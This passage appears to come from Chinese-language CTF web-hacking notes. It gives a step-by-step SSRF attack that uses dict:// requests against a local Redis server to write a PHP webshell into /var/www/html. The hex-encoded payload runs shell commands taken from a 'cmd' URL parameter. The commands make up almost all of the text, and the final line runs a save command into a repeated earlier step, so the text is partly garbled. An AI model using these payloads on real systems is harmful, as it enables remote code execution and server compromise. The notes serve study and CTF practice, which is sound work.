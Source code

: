 ```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

将rdb文件名dbfilename改为webshell的名字
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候可能\x需要换成 \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```

![img](CTF_web.assets/1689447203355-71caa4c3-6179-4e48-a9e3-18b68673f4c8.png)

### SSRF打FastCGI

